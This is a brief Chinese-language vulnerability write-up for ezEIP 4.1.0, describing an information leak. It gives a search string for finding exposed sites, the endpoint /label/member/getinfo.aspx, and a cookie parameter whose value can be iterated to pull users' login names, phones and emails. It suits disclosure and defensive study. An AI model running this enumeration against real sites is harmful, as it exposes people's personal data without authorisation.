

# ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## 网络测绘

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

